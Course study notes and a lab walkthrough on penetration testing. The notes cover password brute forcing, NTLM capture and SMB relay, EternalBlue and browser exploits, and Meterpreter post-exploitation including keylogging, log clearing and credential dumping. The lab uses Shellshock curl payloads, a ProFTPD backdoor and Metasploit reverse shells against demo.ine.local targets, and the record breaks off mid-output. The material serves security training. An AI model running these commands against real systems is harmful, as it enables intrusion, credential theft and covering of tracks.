

# Network Security

## Exploitation

### Vulnerability Assessment - Study Guide

(02/20) *Vulnerability assessment* consists of sending probes to the target systems in order to detect whether a host has some known vulnerabilities, the result of this phase is a list of them.
Vulnerability scanners perform probes on: UDP/TCP ports, configuration files of OS/software/network device, Windows registry entries.
Remember that the vulnerability scanners are very loud.

(10/20) *Nessus* is a vulnerability assessment tool.
It composed of a client (used to configure the scans) and a server (that actually performs the scans and reports the results back to the client).
Every vulnerability scanner performs the same steps:
- Determines if the target is alive;
- For each alive host, determines which ports are open;
- For each open port, determines which application (name and version) is running on it;
- For each detected service (aka deamon), queries its database looking for known vulnerabilities.
This phase may produce false positives.

### Nessus - Video

In the `Scans` area we can create/start/inspect security scans.
In the `Policies` area we can create/edit the policies (sets of configurations) we want to use for the scans.
`Policies->Advanced Scan`: to create a personalized policy.
`Policies->Advanced Scan->Compliance`: contains audit configuration that can be run againts specific services/appliances.
`Policies->Advanced Scan->Plugins`: to enable/disable the plugins to use during the scan.
After executing the scan we will have a report with all the listed vulnerabilities with the corresponding descriptions/solutions.

### Low Hanging Fruits - Study Guide

(02/63) Low Hanging Fruits (LHF) can help in immediately gaining access to a system with little effort. LHF aids in cost benefit ration.
LHF consist in:
- Misconfigurations;
- Unimplemented/bad implemented ACLs;
- Default/weak passwords;
- Open SMB shares/null sessions;
- Known vulnerabilities with publically available exploits.

(06/63) Weak passwords are still one of the weakest links in security.
*Ncrack* is a network authentication cracking tool supporting FTP, SSH, HTTP(S), POP3, SMB.
`ncrack <ServiceName>://<TargetIP>:<TargetPort>`: to target a specific service running on a specific host.
We can also use different services on different hosts at once: `ncrack <TargetIP1>,<TargetIP2> -p <ServiceName1>:<TargetPort1>,<ServiceName2>`.
Ncrack has some usernames/passwords lists in `/usr/share/ncrack`.
We can specify some paths with `-U`/`-P` for usernames/passwords lists, and we can also specify a list of usernames/passwords directly inline with `-u`/`-p`: `ncrack <ServiceName>://<TargetIP>:<TargetPort> -u <Username1>,<Username2>`.
Ncrack can produce false positives.
Anyway, Ncrack can be replaced with the Nmap NSE scripts.

(20/63) *Medusa* is similar to Ncrack but it supports more services and offers more options:
```
-h [TARGET]		Target hostname or IP address
-H [FILE]		File containing target hostnames or IP addresses
-u [TARGET]		Username to test
-U [FILE]		File containing usernames to test
-p [TARGET]		Password to test
-P[FILE]		File containing passwords to test
```
`medusa -h <TargetIP> -M <ServiceName> -U <UsernamesList> -P <PasswordsList>`: to target a specific service running on a specific host.

(27/63) *Patator* is a very flexible and modular cracking tool, it may seem a bit cumbersome at the beginning. 
`patator <ModuleName> -h`: to get the module usage.
`patator <ModuleName> host=FILE0 user=FILE1 password=FILE2 0=<IPsList> 1=<UsernamesList> 2=<PasswordsList>`: to cracking a set of hosts with two sets of usernames and passwords, where `FILE` is keyword (there are other ones, e.g. `COMBO`,`RANGE`).
`patator <ModuleName> host=<TargetIP> user=<Username> password=FILE0 0=passwords.txt -x ignore:mesg="Authentication failed."`: to ignore the results obtained if they contain a specific message, the syntax is `-x <Action>:<Condition>`.
Patator is one of the most powerful tool that we can use for authentication brute forcing.

(43/63) *EyeWitness* is an excellent tool to identify LHF that can be used as an initial foothold. It can also grab screenshots of web applications. As result it will create an HTML report with its findings.
`python EyeWitness.py --headless --prepend-https -f <TargetsList>`: to grab screenshots of a list of target URLs/IPs.

(49/63) *Rsmangler* is a tool to generate targeted wordlists we can use for dictionary attacks. It takes in input an existing wordlist and creates a new more targeted one by applying on it permutations/variations.
`cat <InputWordlist> | rsmangler --file - > <OutputWordlist>`: to generate a targeted wordlist starting from a simple one.

(55/63) *CeWL* is another wordlist generation tool. It is more advanced than Rsmangler indeed it can scrape the target website for keywords in order to improve the output wordlist.
`cewl -m <CharactersMinimumNumber> <TargetURL>`: to generate a wordlist for a specific target website.

(59/63) *Mentalist* is a GUI wordlist generation tool. It can also generate rules files that can be used with Hashcat or John the Ripper.

### Authentication Bruteforcing - Video

`nmap -sS 192.168.1.2 -p 21,22,23`: to be sure that the machine and the services (FTP, SSH, Telnet) are up and running.
*SecLists* is one of the more popular collection of multiple types of list including usernames/passwords: `ls -l /usr/share/seclists/Usernames`, `ls -l /usr/share/seclists/Passwords`.

- Ncrack:
`ncrack -U /usr/share/seclists/Usernames/top_shortlist.txt -P /usr/share/seclists/Passwords/top_shortlist.txt 192.168.1.2 -p ssh -vv`.

- Medusa:
`medusa -U /usr/share/seclists/Usernames/top_shortlist.txt -P /usr/share/seclists/Passwords/top_shortlist.txt -h 192.168.1.2 -M ssh`.

- *Hydra* is another popular login authentication brute forcer, that supports a lot of protocols but also task parallelization.
`hydra -L /usr/share/seclists/Usernames/top_shortlist.txt -P /usr/share/seclists/Passwords/top_shortlist.tx ssh://192.168.1.2`.
It found the credentials faster than any other tool seen until now.
`hydra -L /usr/share/seclists/Usernames/top_shortlist.txt -P /usr/share/seclists/Passwords/top_shortlist.tx ssh://192.168.1.2 -T 55`: to specify the number of parallel connections to use (default 16).
Faster scan may seem better, but at the same time, it may not work as efficiently.

- Patator:
`cat /usr/bin/patator | grep "USAGE"`: to see the commands explanations.
`potator ftp_login -h`: to get the (very informative) module usage. `potator ftp_login`: to get a shorter version.
`potator ftp_login host=192.168.1.2 user=FILE0 password=FILE1 0=/usr/share/seclists/Usernames/top_shortlist.txt 1=/usr/share/seclists/Passwords/top_shortlist.txt -x ignore:mesg="Login incorrect."`.
`potator telnet_login`: to see the different syntax to use with telnet.
`potator host=192.168.1.2 inputs='FILE0\nFILE1' 0=/usr/share/seclists/Usernames/top_shortlist.txt 1=/usr/share/seclists/Passwords/top_shortlist.txt`.

### Exploitation - Study Guide

(02/122) Once found vulnerabilities within a target, we can proceed with their exploitation.
Exploits can be categorized in:
- Client-side: usually require user interaction in order to be triggered (open a link, open a file);
- Remote: do not require user interaction and usually affects services listening on the network;
- Local privilege escalation: permit the attacker to gain higher privileges on the machine.

(04/122) *Metasploit* is an exploitation framework that makes easy to access exploits created by the community. It also helps to develop exploits.

(09/122) The authentication protocol used between Windows clients and servers is *NTLM* (still widely used even if nowdays it is replaced by Kerberos).
NTLM is a challenge/response protocol consisting in three messages: Type 1 (negotiation, authentication request), Type 2 (challenge) and Type 3 (authentication, challenge response).
The password is hashed in accordance with different schemes (LM, NTLMv1, NTLMv2), and then the password hash is used to encrypt the challenge and sent back as response (Type 3 message).
DES is used in the LM scheme, instead for NTLMv1 is used MD4, but the scheme is still considered weak.
Most of the time the NTLMv1/v2 hash is sent (using the NTLM protocol) along with the LM hash to ensure backward compatibility.

There are some weaknesses in the scheme used, that can be exploited by an attacker that will impersonate the server (and control the challenge, a fixed one: "1122334455667788").
The aim here is to capture the password hashes and crack them in order to obtain the password plaintext.
`use auxiliary/server/capture/smb`: to create a listening SMB service to both accept incoming connections and send back the fixed challenge.
`set JOHNPWFILE <HashesFilename>`: to save the hashes to a file in way to work with John the Ripper tool.

Once the Metasploit listener is up, we can force the client to start a connection to it. To do so, we can embed a UNC path `\\<ServerIP>\\<Share>` (e.g. `\\192.168.1.2\ADMIN$`) into an email or a webpage.
LMHASH and NTHASH are the captured hashes. Now we can start to crack them using John the Ripper: `john --format=netlm <HashesFilename>`.
To quicken the cracking process we can (instead) use rainbow tables: `rcracki_mt -h <First8BytesHash> -t <TreadsNumber> *.rti`, using the first 8 bytes of LMHASH and the tables built for the fixed 8 bytes "1122334455667788", where `-t` options specifies the number of threads to use.

Since we cracked just a part of the hash, the real password may be longer than the found one.
`ruby halflm_second.rb -m <CompleteHash> -p <IncompletePassword>`: to obtain the entire password (a case-insensitive version of it).
`perl netntlm.pl -file hashpwd_netntlm -seed <CompletePassword>`: to obtain the case-sensitive password.
An alternative to obtain the case-insensitive password starting directly from the incomplete password found is:
`locate netntlm`, `perl netntlm.pl -file <HashesFilename> -seed <IncompletePassword>`, and then again: `perl netntlm.pl -file <HashesFilename> -seed <CompletePassword>`: to obtain the case-sensitive password.

(58/122) *NTLMv2* is adopted since Windows Vista, in this protocol the Type 3 message in a different way:
- NTLMv2 hash: HMAC-MD5(NTLMv1 hash, username+domain);
- NTLMv2 response: HMAC-MD5(NTLMv2 hash, challenge+BLOB)+BLOB;
BLOB contains (also) a client challenge and the timestamp.

Cracking the NTLMv2 hashes is infeasible if the password is strong enough (indeed the only possible attack now is the brute-force of the HMAC key).

(66/122) Anyway, there is another attack we can mount, to bypass the cracking phase just seen.
The *SMB Relay* is a MitM attack: the attacker captures the challenge from the server and sends it to the victim, then captures the response (so the challenge encrypted using the victim password hash) from the victim and sends it to the server, getting access to the server.
The attack works only if the victim has administrative privileges on the target machine.

`use exploit/windows/smb/smb_relay`: to use a Metasploit module for mounting the SMB Relay attack.
`show options`: to show the configuration options:
- SMBHOST: the (target) SMB server IP address;
- PAYLOAD: the payload to use (`windows/meterpreter/reverse_tcp`).
With `exploit`, Metasploit will start (once the victim connects to the server) a new meterpreter session.

Note that the use of NTLMv2 may not stop the attack.

(79/122) *Impacket* is another tool (in particular we will use its smbrelayx.py script) to mount the SMB Relay attack.
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<AttackerIP> LPORT=<AttackerPort> -f exe -o <PayloadFilepath>`: to create the .exe payload that Impacket will execute on the target machine, where `-p` indicates the payload to use, `-f` the format of the payload, `-o` the output executable file, `LHOST` and `LPORT` are the host and the port to which the payload will connect.
`use exploit/multi/handler`: to use a special Metasploit module (the Metasploit Handler) for listening for incoming connections from the target machine.
`run` to start the handler.
`smbrelayx.py -h <TargetIP> -e <PayloadFilepath>`: to mount the attack, where `-e` sets the file to execute.
If the attack succeeds, Metasploit will start (once the victim connects to the server) a new meterpreter session.

(89/122) *EternalBlue* is one of the more impactful exploits affecting SMBv1, known to have helped carry out the NotPetya cyberattack.
Its usage arises in remote code execution.
In some cases the exploitation may result in the blue screen of death.

(94/122) *Client-side exploitation* targets installed applications such as browsers, browsers plugins, email clients.

`use exploit/multi/browser/firefox_pdfjs_privilege_escalation`: to use a Metasploit module for exploiting the Mozilla PDF file viewer.
`show options`: to show the configuration options:
- SRVHOST: the local host (our IP address, client-side) to listen on;
- SRVPORT: the local port to listen on;
- PAYLOAD: the payload to use (`firefox/shell_reverse_tcp`).
With `exploit`, Metasploit will start a web server, which hosts a webpage containing the exploit itself.
Once clicked on the link in the page, we will see in the msfconsole a command shell created.

(107/122) *Remote exploitation* targets both applications and software that expose services, reachable from other machines in the network.

`use exploit/windows/smb/ms08_067_netapi`: to use a Metasploit module for exploiting a (very old) vulnerability in the Server service.
`show options`: to show the configuration options:
- RHOST: the target IP address;
- RPORT: the SMB service port;
- PAYLOAD: the payload to use (`windows/meterpreter/reverse_tcp`).
With `exploit`, Metasploit will start a new meterpreter session.

### Metasploit Basic Usage - Video

`msfupdate`: to update the Metasploit framework.
`service postgresql start`: needed by msfconsole, `msfconsole`: to run the interface to use Metasploit.
`search type:<ModuleType> platform:<ModulePlatform> cve:<ModuleCVE>`: to search among the available modules (e.g. `search type:exploit platform:windows`).
`show <ModuleCategory>`: to show all the modules of a specific category (e.g. `show payloads`).
Every exploit supports different payloads.
Meterpreter payload is the most common and powerful payload we can use in Metasploit.
Differences between reverse shell and bind shell:
- Reverse shell: here the victim starts the connection to the attacker;
- Bind shell: here the attacker starts to listen for incoming connection, where then the victim will connect.

`ls -l /usr/share/metasploit-framework/modules`: to see all the available modules;
`info <ModuleFilepath>`: to retrieve information about a specific module;
`use <ModuleFilepath>`: to use a specific module, where `<ModuleFilepath>=<ModuleType>/<ModulePlatform>/<ModuleService>/<ModuleFilename>`);
`show options`: to see the required options we need to configure;
`show payloads`: to see all the available payloads for this specific module;
`show targets`: to see all the vulnerable target systems;
`set <Option> <Value>`: to set the required options; `unset <Option>`: to unset an option;
`set PAYLOAD <PayloadFilepath>`: to set the payload we want to use (e.g. `set PAYLOAD windows/meterpreter/reverse_tcp`);
`show options`: to see the new available options;
`exploit`: to launch the attack.

### LM NTLM Cracking - Video

`cat <HashesFilename>`:
```
<Username>::<DomainName>:<LMHash>:<NTLMHash>:<ChallengeUsed>
```

### EternalBlue & Metasploit - Video

`search eternalblue`: to list all the modules realted to EternalBlue.
`use auxiliary/scanner/smb/smb_ms17_010`: to scan the target in order to know if it is vulnerable to EternalBlue exploit; `show options`, `set RHOSTS 192.168.1.2`, `run`.
`use exploit/windows/smb/smb_ms17_010_eternalblue`, `show options`, `set RHOST 192.168.1.2`, `exploit`: to attempt to exploit our target.
Note that if the exploit does not work we can try to change other options.
If the exploitation succeeds we obtain a shell with "NT AUTHORITY\SYSTEM" privileges.

### Client Side Exploitation - Video

`msfconsole`, `use exploit/multi/browser/adobe_flash_hacking_team_uaf`: to mount a client-side attack against a Linux machine (the used module works on both Linux and Windows machines) that exploits an old vulnerability in Adobe Flash.
`info`, `show options`, `set URIPATH test`: to set the link the module is going to create, `show targets`, `set TARGET 1`: to set the Linux target, `set PAYLOAD linux/x86/meterpreter/reverse_tcp`: to set the payload, `show options`, `set LHOST 192.168.1.3`, `exploit`: Metasploit will print the link to send to the victim.
Once the victim opens the link, Metasploit will start a new meterpreter session (in the output we can see the ID of the session just obtained).

`sessions`: to see all the sessions available;
`sessions -i 1`: to interact with the obtained session;
`background`: to go back in the Metasploit console;
`jobs`: to see the current running modules;
`jobs -k 0`: to kill one running module specifing its ID.

### Remote Exploitation - Video

`nmap -sS 192.168.1.2 --script smb-os-discovery`: to get some information about the target. 
We see it has Windows 8.1 as OS and VNC service running on 5900 port.

`msfconsole`, `grep vnc search type:exploit`, `use exploit/multi/vnc/vnc_keyboard_exec`: to mount a remote attack against a Windows (the used module works on both Linux and Windows machines) that exploits a vulnerability in RealVNC server (send virtual keyboard keys to execute the payload on the server).
`show options`, `set RHOST 192.168.1.2`, `set PASSWORD VNCpwd`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set LHOST 192.168.1.3`, `exploit`: Metasploit will start a new meterpreter session (in the output we can see the ID of the session just obtained).

### Metasploit Usage - Video

A big advantage of Meterpreter is the ability to execute Unix-like commands (such as `cd`, `ls`, `cat`) even on Windows machines.
`info` to show the available commands.
`ifconfig` and `sysinfo` are very useful commands.
Another useful option is the ability to transfer files between the host and the vulnerable machine using `download` and `upload`: `download C:\\Users\\Documents\test.txt`, `upload test.exe C:\\Users\\Documents`.
`edit test.txt`: to edit a file using a text editor.
`execute -f cmd.exe -i H`: to execute a specific program presents on the target machine, where `H` hides the program execution to the current users, `-i` to interact with the program once executed. In alternative can be used `shell`.
`search -f secret.*`: is used to search for files in the target machine.
`run <ScriptFilepath>`: to run Meterpreter scripts (e.g. `run post/windows/gather/enum_applications`, where `post` stands for Post-Exploitation).
`ps`: to get all the running services, `getid <ServiceName>`: to get the PID of a specific running service, `migrate <ProcessID>`: to migrate the Meterpreter session PID to a new ProcessID.
`keyscan_start`: to start the capture of keystrokes, `keyscan_dump`: to view the captured keystrokes, `keyscan_stop`: to pause the keystrokes capturing.
`clearev`: to hide the traces (try to clean the system logs) from the target machines.

### Responder & MultiRelay - Video

Once successfully obtained a (limited) shell by using the MultiRelay tool, we can enhance it using Metasploit.
The MultiRelay tool allows to upload a file, so we can generate a Meterpreter payload using Metasploit Venom: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=4444 -f exe -o /root/data/payload.exe`.

`msfconsole`, `use exploit/multi/handler`: to use a special Metasploit module (the Metasploit Handler) for listening for incoming connections from the target machine, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `set LHOST 192.168.1.3`, `set LPORT 4444`, `exploit -j` where `-j` is used to execute the handler in the background.

Now we can upload (automatically into the `C:\windows\temp` directory) and execute the generated payload using MultiRelay shell: `upload /root/data/payload.exe`, `C:\windows\temp\payload.exe`.
Once executed the payload, we can see we have a Meterpreter shell.

We can interact with the Meterpreter shell: `sessions -i 1`, `load kiwi`: to load the kiwi extension, useful in this case to dump users credentials from the target, `creds_all`.

### VA and Exploitation - Lab

This lab will use Nessus to scan and perform vulnerability analysis of a multiple targets machine running a different vulnerable application.

This exercise will help you understand how to perform vulnerability scanning using Nessus/Nmap and exploit it using Metasploit Framework.

In this lab environment, the user will access a Kali GUI instance. A vulnerable application can be accessed using the tools installed on Kali on:
- http://demo.ine.local
- http://demo2.ine.local
- http://demo3.ine.local
- http://demo4.ine.local

Objective: Perform a vulnerability scan on the target machine using Nessus and Nmap and exploit it!
Relevant Information:
- Username: admin
- Password: adminpasswd

The best tools for this lab are:
- Nessus
- A web browser
- Metasploit Framework
- Nmap

---

**Step 1**.

`firefox https://localhost:8834 &`.

`demo.ine.local, demo2.ine.local, demo3.ine.local, demo4.ine.local`, `Run Scan`.

This would start a Basic Network Scan by default.

However, we found a critical vulnerability in one host only (`demo.ine.local` i.e 192.XX.XX.3): "ProFTPD Compromised Source Packages Trojaned Distribution".

For the remaining hosts, we have found minor misconfigurations information.

There are always chances that automated vulnerability scanning tools won't detect the vulnerability sometimes. It's always best to investigate the hosts manually to understand the target machine about the exposure.

**Step 2**.

`nano /root/Desktop/hosts.txt`:
```
demo2.ine.local
demo3.ine.local
demo4.ine.local
```

Nmap *vuln* is a collection of scripts that check for specific known vulnerabilities and generally only report results if they are found.

`nmap --script vuln -iL /root/Desktop/hosts.txt`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-14 19:57 IST
Nmap scan report for demo2.ine.local (192.156.190.4) ←
Host is up (0.000013s latency).
rDNS record for 192.156.190.4: target-2
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE
1099/tcp open  rmiregistry
| rmi-vuln-classloader: 
|   VULNERABLE:
|   RMI registry default configuration remote code execution vulnerability ←
|     State: VULNERABLE
|       Default configuration of RMI registry allows loading classes from remote URLs which can lead to remote code execution.
|       
|     References:
|_      https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/java_rmi_server.rb
MAC Address: 02:42:C0:9C:BE:04 (Unknown)

Nmap scan report for demo3.ine.local (192.156.190.5) ←
Host is up (0.000010s latency).
rDNS record for 192.156.190.5: target-3
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-vuln-cve2012-2122: 
|   VULNERABLE:
|   Authentication bypass in MySQL servers. ←
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2012-2122
|       When a user connects to MariaDB/MySQL, a token (SHA
|       over a password and a random scramble string) is calculated and compared
|       with the expected value. Because of incorrect casting, it might've
|       happened that the token and the expected value were considered equal,
|       even if the memcmp() returned a non-zero value. In this case
|       MySQL/MariaDB would think that the password is correct, even while it is
|       not.  Because the protocol uses random strings, the probability of
|       hitting this bug is about 1/256.
|       Which means, if one knows a user name to connect (and "root" almost
|       always exists), she can connect using *any* password by repeating
|       connection attempts. ~300 attempts takes only a fraction of second, so
|       basically account password protection is as good as nonexistent.
|       
|     Disclosure date: 2012-06-9
|     Extra information:
|       Server granted access at iteration #1500
|   
|     root:*66251D5A2791AD1B9D7BAA7F76F0F14E1BFF061D
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-2122
|       http://seclists.org/oss-sec/2012/q2/493
|_      https://community.rapid7.com/community/metasploit/blog/2012/06/11/cve-2012-2122-a-tragically-comedic-security-flaw-in-mysql
MAC Address: 02:42:C0:9C:BE:05 (Unknown)

Nmap scan report for demo4.ine.local (192.156.190.6) ←
Host is up (0.0000090s latency).
rDNS record for 192.156.190.6: target-4
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http ←
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-trace: TRACE is enabled
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
MAC Address: 02:42:C0:9C:BE:06 (Unknown)

Nmap done: 3 IP addresses (3 hosts up) scanned in 31.36 seconds
```

The host `demo2.ine.local` is vulnerable to RMI registry default configuration remote code execution vulnerability. Then, the host `demo3.ine.local` is vulnerable to authentication bypass in the MySQL server.

This confirms that we have found two more hosts vulnerable to serious vulnerability.

But, we can observe, for the host `demo4.ine.local`, we haven't received any exciting output. However, we can notice that port 80 is open. 

**Step 3**.

`nmap -sV demo4.ine.local -p80`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-14 20:19 IST
Nmap scan report for demo4.ine.local (192.156.190.6)
Host is up (0.000053s latency).
rDNS record for 192.156.190.6: target-4

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.6 ((Unix))
MAC Address: 02:42:C0:9C:BE:06 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.64 seconds
```

`nmap -sS demo4.ine.local -p80 --script http-shellshock --script-args uri=/browser.cgi,cmd=id`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-14 20:33 IST
Nmap scan report for demo4.ine.local (192.156.190.6)
Host is up (0.000057s latency).
rDNS record for 192.156.190.6: target-4

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability ←
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     Exploit results:
|       <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
|   <html><head>
|   <title>500 Internal Server Error</title> ←
|   </head><body>
|   <h1>Internal Server Error</h1>
|   <p>The server encountered an internal error or
|   misconfiguration and was unable to complete
|   your request.</p>
|   <p>Please contact the server administrator at 
|    you@example.com to inform them of the time this error occurred,
|    and the actions you performed just before this error.</p>
|   <p>More information about this error may be available
|   in the server error log.</p>
|   </body></html>
|   
|     References:
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
MAC Address: 02:42:C0:9C:BE:06 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.71 seconds
```

We notice that the response indicates that the server is indeed vulnerable to Shellshock vulnerability.

But we get back a 500 error message in the response. That means a server-side error occurred during the execution of the supplied payload.

It happened because we needed to send the correct `Content-Type` (to text/HTML) and add a newline (using the `echo` command) from the CGI script to Apache otherwise, things wouldn't work.

`nmap -sS demo4.ine.local -p80 --script http-shellshock --script-args uri=/browser.cgi,cmd='echo Content-Type: text/html; echo; /usr/bin/id'`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-14 20:38 IST
Nmap scan report for demo4.ine.local (192.156.190.6)
Host is up (0.00011s latency).
rDNS record for 192.156.190.6: target-4

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     Exploit results:
|       uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       http://seclists.org/oss-sec/2014/q3/685
|_      http://www.openwall.com/lists/oss-security/2014/09/24/10
MAC Address: 02:42:C0:9C:BE:06 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
```

Great! We have successfully executed the command on the server and received an output.

**Step 4**.

`curl http://demo4.ine.local/browser.cgi -H "User-Agent: () { :; }; echo; /bin/bash -c 'whoami'"`:
```
daemon
```

`curl http://demo4.ine.local/browser.cgi -H "User-Agent: () { :; }; echo; /bin/bash -c 'find / -type f -iname "flag*"'"`:
```
/proc/sys/kernel/sched_domain/cpu0/domain0/flags
/proc/sys/kernel/sched_domain/cpu1/domain0/flags
/proc/sys/kernel/sched_domain/cpu10/domain0/flags
/proc/sys/kernel/sched_domain/cpu11/domain0/flags
/proc/sys/kernel/sched_domain/cpu12/domain0/flags
/proc/sys/kernel/sched_domain/cpu13/domain0/flags
/proc/sys/kernel/sched_domain/cpu14/domain0/flags
/proc/sys/kernel/sched_domain/cpu15/domain0/flags
/proc/sys/kernel/sched_domain/cpu5/domain0/flags
/proc/sys/kernel/sched_domain/cpu6/domain0/flags
/proc/sys/kernel/sched_domain/cpu7/domain0/flags
/proc/sys/kernel/sched_domain/cpu8/domain0/flags
/proc/sys/kernel/sched_domain/cpu9/domain0/flags
/tmp/flag ←
/tmp/files/bash-4.3/flags.c
/tmp/files/bash-4.3/flags.o
/tmp/files/bash-4.3/flags.h
/tmp/files/httpd-2.4.6/docs/manual/rewrite/flags.html.fr
/tmp/files/httpd-2.4.6/docs/manual/rewrite/flags.html.en
/tmp/files/httpd-2.4.6/docs/manual/rewrite/flags.html
/opt/apache/manual/rewrite/flags.html.fr
/opt/apache/manual/rewrite/flags.html.en
/opt/apache/manual/rewrite/flags.html
```

`curl http://demo4.ine.local -H "User-Agent: () { :; }; echo; /bin/bash -c 'cat /tmp/flag'"`:
```
13a2c4660c0b48df3ff87fb2981516f3
```

**Step 5**.

`ip addr | grep "inet"`:
```
inet 127.0.0.1/8 scope host lo
inet 10.1.0.16/16 brd 10.1.255.255 scope global eth0
inet 192.10.68.2/24 brd 192.10.68.255 scope global eth1
```

`msfconsole -q`, `search proftpd`, `use exploit/unix/ftp/proftpd_133c_backdoor`, `show options`, `set RHOSTS demo.ine.local`, `set LHOST 192.10.68.2`, `show payloads`, `set PAYLOAD cmd/unix/reverse_perl`, `exploit -j`.

`sessions`, `sessions -i 1`.

`id`:
```
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
```

`find / -type f -iname "flag*"`:
```
/proc/sys/kernel/sched_domain/cpu0/domain0/flags
/proc/sys/kernel/sched_domain/cpu1/domain0/flags
/proc/sys/kernel/sched_domain/cpu10/domain0/flags
/proc/sys/kernel/sched_domain/cpu11/domain0/flags
/proc/sys/kernel/sched_domain/cpu12/domain0/flags
/proc/sys/kernel/sched_domain/cpu13/domain0/flags
/proc/sys/kernel/sched_domain/cpu14/domain0/flags
/proc/sys/kernel/sched_domain/cpu15/domain0/flags
/proc/sys/kernel/sched_domain/cpu5/domain0/flags
/proc/sys/kernel/sched_domain/cpu6/domain0/flags
/proc/sys/kernel/sched_domain/cpu7/domain0/flags
/proc/sys/kernel/sched_domain/cpu8/domain0/flags
/proc/sys/kernel/sched_domain/cpu9/domain0/flags
/proc/kpageflags
/usr/include/x86_64-linux-gnu/bits/ss_flags.h
/usr/include/x86_64-linux-gnu/bits/waitflags.h
/usr/include/x86_64-linux-gnu/asm/processor-flags.h
/usr/include/linux/kernel-page-flags.h
/usr/include/linux/tty_flags.h
/usr/lib/x86_64-linux-gnu/perl/5.26.1/bits/ss_flags.ph
/usr/lib/x86_64-linux-gnu/perl/5.26.1/bits/waitflags.ph
/usr/share/perl5/Dpkg/BuildFlags.pm
/usr/share/dpkg/buildflags.mk
/usr/bin/dpkg-buildflags
/flag
```

`cat /flag`:
```
e071314bb6ad865506a214ccb1e081ea
```

**Step 6**.

`ip addr | grep "inet"`:
```
inet 127.0.0.1/8 scope host lo
inet 10.1.0.16/16 brd 10.1.255.255 scope global eth0
inet 192.10.68.2/24 brd 192.10.68.255 scope global eth1
```

`seach rmi registry`, `use exploit/multi/misc/java_rmi_server`, `show payloads`, `set PAYLOAD java/meterpreter/reverse_tcp`, `show options`, `set RHOSTS demo2.ine.local`, `set LHOST 192.10.68.2`, `exploit -j`.

`sessions`, `sessions -i 1`, `sysinfo`:
```
Computer    : demo2.ine.local
OS          : Linux 5.4.0-152-generic (amd64)
Meterpreter : java/linux
```

`getuid`:
```
Server username: root
```

**Step 7**.

`search cve:2012-2122`, `use auxiliary/scanner/mysql/mysql_authbypass_hashdump`, `show options`, `set RHOSTS demo3.ine.local`, `exploit`:
```
[+] 192.10.68.5:3306      - 192.10.68.5:3306 The server allows logins, proceeding with bypass test
[*] 192.10.68.5:3306      - 192.10.68.5:3306 Authentication bypass is 10% complete
[*] 192.10.68.5:3306      - 192.10.68.5:3306 Authentication bypass is 20% complete
